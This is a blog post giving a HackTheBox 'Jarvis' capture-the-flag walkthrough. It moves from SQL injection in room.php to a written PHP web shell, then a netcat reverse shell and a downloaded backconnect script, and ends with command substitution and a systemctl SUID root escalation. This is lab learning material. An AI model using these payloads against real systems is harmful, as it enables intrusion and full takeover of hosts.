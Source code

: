 ```yaml
---
layout:     post
title:      "HackTheBox: Jarvis"
date:       2019-11-10 00:00:00
author:     J
summary:    I love you 3000
categories: HackTheBox
thumbnail:  cube
tags:
 - OSCP
 - HackTheBox
 - Linux
---
```




Jarvis was a really satisfying box to root, in the sense that it's not too CTF-ish and had an initial foothold method that allowed me to learn something new. It is rated as a Medium difficulty box and I feel that it's slightly on the easier side of that spectrum.



Anyone who knows me personally would know that I dislike CTF style boxes where you have really annoying key pieces of the puzzle hidden in strange places like within an image(lol it's currently on a live box, I may make a post on that box if time permits).



![1568728913954](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728913954.png)





Now lets get down to business



---



## Enumeration & Initial Foothold



We start by enumerating the ports open on the box:



~~~bash
nmap -sV -sC -p- oN nmap 10.10.10.143
~~~



~~~bash
# Nmap 7.70 scan initiated Wed Jul  3 07:52:10 2019 as: nmap -sV -sC -p- -oN nmap jarvis
Nmap scan report for jarvis (10.10.10.143)
Host is up (0.55s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
5355/tcp  filtered llmnr
31722/tcp filtered unknown
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  3 08:38:07 2019 -- 1 IP address (1 host up) scanned in 2757.65 seconds

~~~





Typically when port 80 is open, it is the first thing I explore after searching through the software versions on the internet for known vulnerabilities.



Running `gobuster` returns a `phpmyadmin` login page, but for this case it's not required for entry so I have omitted that.



Crawling through the website, we notice that the `room.php` page takes an input parameter `cod` and uses it to render the room type. Injecting a `'` and appending it to the end breaks the page. Hmm..




![1568723719909](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723719909.png)



We can further test if the previous example was a false positive using the `order by` statement. Appending a `order by 1` returns the page as per normal. We might have an SQL injection vulnerability here!



![1568723834604](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723834604.png)



We can increment the number we `order by` to test how many columns are returned by the SQL database. When this number reaches 8, the page gets broken again. We now know that there are 7 columns returned from the SQL query.



![1568723867745](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723867745.png)



So we know that the web application runs `php`, we have an SQL injection vulnerability, and that it selects 7 columns of data from whatever table it's querying.



Here we can write a file echoing(don't forget url encoding!) a simple php 1 liner RCE code into a file on the server. `/var/www/html` is one of the most common directories hosting web pages so we can try that first.



~~~
http://10.10.10.143/room.php?cod=1+union+select+1,2,3,4,5,6,'<%3fphp+system($_GET["cmd"])%3b+%3f>'+into+outfile+'/var/www/html/cmd.php'+%23
~~~



![1568723959570](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723959570.png)



After that, we can try accessing our new file at `10.10.10.143/cmd.php` and note that it did create something:





![1568728086337](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728086337.png)





Now that we have the php file on the server, we can execute our netcat reverse shell back to our listener:

~~~bash
# create listener
nc -lvp 443

# call our reverse shell

curl -X GET "http://10.10.10.143/cmd.php?cmd=nc%2010.10.14.4%20443%20-e%20/bin/sh"
~~~



Of course you don't have to use `curl`, just entering the payload in the browser works just as well. 



In any case, we get a shell!

![1568724141929](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724141929.png)





---



## Privilege Escalation - User



We upgrade to a prettier shell, and run a `sudo -l` to check out sudo privileges



![1568724227472](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724227472.png)



An interesting command was found within this `simpler.py` file.



![1568724294794](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724294794.png)





As we can see, the file checks for bad characters. However, a key character `$` was missing. Using command substitution, we can still get it to execute scripts.



Here I go back to using the trusty  set of python pty shell scripts by infodox, which can be found [here][1]. As shown in the writeup on Writeup, these scripts allow us to spawn a reverse shell from the target to the host. The result allows for a fully interactive shell, inclusive of tab autocomplete, history, and such.



We first edit`tcp_pty_backconnect.py` with our IP address, and then host the file on our HTTP server using port of our choosing.



~~~bash
python -m SimpleHTTPServer 1234
~~~





![1568724965720](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724965720.png)





After which, we enter a world-writable directory where we can work out of;  `/tmp` is usually my favourite. Inside we can use `wget` to download our script



~~~bash
wget 10.10.16.53:1234/tcp_pty_backconnect.py
~~~



![1568725392837](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568725392837.png)



We can then setup the listener to catch the reverse shell by binding it to the IP and port previously specified:

~~~bash
python tcp_pty_shell_handler.py -b 10.10.16.53:31337 
~~~



### Simpler.py



We run the script as the user `pepper`, and see the usage instructions. Here we know that `-p` will call the function we want to exploit.



![1568726080425](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726080425.png)



~~~bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py  
# then
8.8.8.8 $(python /tmp/tcp_pty_backconnect.py)

~~~



On the listener we previously set up, we see that we got our user shell.



![1568726351083](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726351083.png)



---



## Privilege Escalation - Root



Doing the usual checks, we see that `systemctl` has an SUID bit set and will run as root.



![1568726493292](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726493292.png)



We check this very lovely website called [gtfobins][2] and see that `systemctl` can be used to elevate the user privileges if SUID bit or if `sudo` can be run on it as root.



Kudos to the creators of this box, whether intentional or not. There was one last hoop to jump through.



Following the steps in [gtfobins][2] did not escalate our shell to root.  Poo :(



However, if you think about it. What's the difference between the following? :

1. Have SUID bit set as root
2. Can SUDO as root with no password



Basically, the main difference is simply the lack of the `sudo -u root` or `sudo` prefix when running the binary or script.

So this basically means, we can try the methods described that were meant for the `sudo` section of the page, just removing the word `sudo` from the command(s).



Here, in plain text for your copy paste pleasure:

~~~bash
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF systemctl edit system.slice
~~~



And executing these gets us our root shell. From here we can go to the respective directories and get the flags required. :)



![1568727190405](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568727190405.png)



Cya guys next time. I love you 3000!





[1]: https://github.com/infodox/python-pty-shells

[2]: https://gtfobins.github.io/gtfobins/systemctl/







